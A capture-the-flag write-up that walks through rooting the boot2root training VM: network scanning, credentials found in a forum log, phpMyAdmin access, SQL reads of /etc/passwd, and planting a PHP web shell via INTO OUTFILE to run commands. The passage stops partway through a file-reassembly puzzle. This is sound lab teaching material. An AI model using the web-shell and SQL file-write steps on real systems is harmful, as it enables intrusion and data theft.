






# Writeup 1 - The usual way in

This first writeup will focus on the intended way of penetrating the system, from booting the machine up to getting a `root` shell.

## Preparation

This repository contains a [`shell.nix`](../../shell.nix) file, which can be used to run a shell environment with all the required tools used to exploit the machine.

We can use the `nix-shell` command to enter the shell environment:

```bash
$ nix-shell
[nix-shell:~/boot2root]$
```

We can now download the ISO and launch the virtual machine via the provided [run script](../../vm/run.sh):

```bash
[nix-shell:~/boot2root]$ ./vm/run.sh
...
[nix-shell:~/boot2root]$
```

## 1 - Enumeration

### 1.1 - Finding the machine's IP address

The first thing we need to do is to find the machine's IP address. The virtual machine was setup on a private network via VirtualBox, so we can just scan the few hundred IPs in the interface's range (in this case `vboxnet0`, `192.168.56.1/24`).

```bash
[nix-shell:~/boot2root]$ ip addr show vboxnet0
6: vboxnet0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 0a:00:27:00:00:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.1/24 brd 192.168.56.255 scope global vboxnet0
       valid_lft forever preferred_lft forever
    inet6 fe80::800:27ff:fe00:0/64 scope link
       valid_lft forever preferred_lft forever

[nix-shell:~/boot2root]$ nmap 192.168.56.1/24
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-30 19:39 CEST
Nmap scan report for 192.168.56.108
Host is up (0.00012s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE
...

Nmap done: 256 IP addresses (1 hosts up) scanned in 3.05 seconds
```

We now get the IP address of the machine: `192.168.56.108`.

### 1.2 - Finding public services

Now that we have the IP address, we can do a deeper scan of the machine to find open ports and services.

```bash
[nix-shell:~/boot2root]$ nmap -sV -sC -p- 192.168.56.108
Starting Nmap 7.94 ( https://nmap.org ) at 2025-03-30 19:44 CEST
Nmap scan report for 192.168.56.108
Host is up (0.00055s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap     Dovecot imapd
|_ssl-date: 2025-03-30T17:44:24+00:00; 0s from scanner time.
|_imap-capabilities: more LOGINDISABLEDA0001 ID OK LOGIN-REFERRALS post-login capabilities SASL-IR listed IMAP4rev1 Pre-login have IDLE ENABLE STARTTLS LITERAL+
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
443/tcp open  ssl/http Apache httpd 2.2.22
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_http-title: 404 Not Found
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2025-03-30T17:44:24+00:00; 0s from scanner time.
993/tcp open  ssl/imap Dovecot imapd
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2025-03-30T17:44:24+00:00; 0s from scanner time.
|_imap-capabilities: more ID AUTH=PLAINA0001 LOGIN-REFERRALS ENABLE capabilities SASL-IR post-login IDLE listed have OK IMAP4rev1 Pre-login LITERAL+
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.88 second
```

Alright, that's a lot of information, but we can see that the machine is running a Linux distribution, and that it has a few open ports.

There's two HTTP services, one on port 80 and one on port 443, an FTP service on port 21, and some mail services on port 143 and 993.

## 2 - Exploration

### 2.1 - FTP (first pass)

The FTP service doesn't accept anonymous logins, so we'll need to come back to it later.

### 2.2 - SSH (first pass)

We can try to connect to the machine via SSH, but again, we don't know any credentials that might work, and bruteforcing would take too long (and is not what the subject wants us to do, sadge).

### 2.3 - HTTP

Looking around the HTTP (port 80) service, we can see that it's running Apache 2.2.22, let's keep that in mind for later. The page and files don't seem to have anything interesting, so we'll move on to HTTPS.

### 2.4 - HTTPS

Another web service is running on port 443, and it's a different host than HTTP, so that's a good start.

We'll start by scanning possible paths via an enumeration tool like [feroxbuster](https://github.com/epi052/feroxbuster):

```bash
[nix-shell:~/boot2root]$ feroxbuster -k --url "https://192.168.56.108/" -w ~/sgoinfre/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt --threads 200
```

We can see that there are three directories:
- `/webmail/`
  - This is locked behind a login page, so we'll come back later
- `/phpmyadmin/`
  - This is a web interface for the MySQL database, still no credentials, but that's probably a gold mine
- `/forum/`
  - A publicly accessible forum :exclamation: Let's look into it.

#### 2.4.1 - Forum

[](./screen-1.png)

There seems to be only one interesting post which is `Probleme login ?` by `lmezard`, asking for help with a login issue, and posting a huge dump of logs from `sshd`.

In these logs, we can see that multiple login attempts were made, and one for which the username seemed to be mixed up with the password:

```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

We can try and access the `lmezard` account on the forum using the username `lmezard` and the password `!q\]Ej?*5K5cy*AJ`, and it works!

Looking at the user settings page, we find the email address of the user:

[](./screen-2.png)

We can now try to access the webmail using the email address.

#### 2.4.2 - Webmail

[](./screen-3.png)

We now login via the `laurie@borntosec.net` email address and the password `!q\]Ej?*5K5cy*AJ`, and we get access to the webmail.

Looking at the inbox, we find a **somewhat** interesting message:

[](./screen-4.png)

[](./screen-5.png)

well sure.

#### 2.4.3 - phpmyadmin

Going back to `/phpmyadmin`, we can login using the credentials `root:Fg-'kKXBj87E:aJ$`.

From there, we can run some SQL queries to get some information from the machine:

```sql
SELECT CONVERT( LOAD_FILE( '/etc/passwd' ) USING utf8 )
```

We can see the existence of some users, but nothing too interesting.

[](./screen-6.png)

Let's run another query, this time to write some files, preferably a PHP file allowing us to execute commands on the machine.

We need a directory that's both writeable and that we can access via a public URL. After looking around a bit, trying and failing, we find `/var/www/forum/templates_c/` that fits:

```sql
SELECT "<?php system($_GET['c']); ?>" INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```

Going to this url allows us to execute commands on the machine via the `c` query parameter:

```
https://192.168.56.117/forum/templates_c/shell.php?c=ls%20%2F
```

(This is `ls /` url-encoded)

Now looking around a little, we check `/home/` and find a folder called `LOOKATME`, which contains a file called `password`:

```bash
[nix-shell:~/boot2root]$ curl -k "https://192.168.56.117/forum/templates_c/shell.php?c=cat%20%2Fhome%2FLOOKATME%2Fpassword"
lmezard:G!@M6f4Eatau{sF"
```

## 3 - Escalation

### 3.1 - lmezard

#### 3.1.1 - Getting the files

We saw earlier that `lmezard` is a user on the machine, so we try and login via SSH, but it doesn't work.

We then try via FTP, which has better success. Listing the files available, we get the following:

```bash
[nix-shell:~/boot2root]$ ftp lmezard@192.168.56.117
Connected to 192.168.56.117.
220 Welcome on this server
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56258|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp>
```

it seems we need to `get fun`.

```bash
ftp> get README
local: README remote: README
229 Entering Extended Passive Mode (|||39883|).
150 Opening BINARY mode data connection for README (96 bytes).
100% |*********************************************************************|    96        5.72 MiB/s    00:00 ETA
226 Transfer complete.
96 bytes received in 00:00 (101.02 KiB/s)
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||48541|).
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |*********************************************************************|   790 KiB  662.78 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (68.56 MiB/s)
```

First reading the `README`:
```
[nix-shell:~/boot2root]$ cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

And the `fun` file:
```
[nix-shell:~/boot2root]$ file fun
fun: POSIX tar archive (GNU)
```

#### 3.1.2 - The """fun""" ^_^

Extrating the `fun` archive gives us a daunting sight:

```bash
[nix-shell:~/boot2root]$ tar -xvf fun
...
ft_fun/73MF2.pcap
ft_fun/0WAAG.pcap
ft_fun/MG04X.pcap
ft_fun/M53HZ.pcap
ft_fun/ZIFMI.pcap
ft_fun/91CD0.pcap
ft_fun/AW0DQ.pcap
ft_fun/LRRHQ.pcap
ft_fun/PLTJE.pcap
ft_fun/WZ33P.pcap
ft_fun/Y1DYP.pcap
ft_fun/5CH2L.pcap
ft_fun/KIVAQ.pcap
ft_fun/7ICHZ.pcap
ft_fun/AMH11.pcap
ft_fun/DFO1G.pcap
ft_fun/G3VJZ.pcap
ft_fun/Y8S1M.pcap
...
```

oh fuck.

Looking at the files, we see that they're all `pcap` files, and that they might contain a lot of `tcpdump` output. We think we need to concat packets together to get a full capture and analyze it, and the fun might be very much gone.

(Un)Fortunately, the `pcap` files are just a bunch of random data that look like C code:
```bash
[nix-shell:~/boot2root]$ file ft_fun/*.pcap
...
ft_fun/YDMXW.pcap: ASCII text
ft_fun/YJR5Z.pcap: C source, ASCII text
ft_fun/YL7B7.pcap: ASCII text
ft_fun/YO8Y6.pcap: ASCII text
...
```

We can also see that every file has a `//file` comment at the end, which hints at re-odering and re-assembling them:

```bash
[nix-shell:~/boot2root]$ cat ft_fun/00M73.pcap
void useless() {

//file12
[nix-shell:~/boot2root]$ cat ft_fun/0D70A.pcap
        printf("Hahahaha Got you!!!\n");

//file302
```

Writing [a script](./scripts/concat-fun.py) to concatenate the files and re-order them, we get the following:
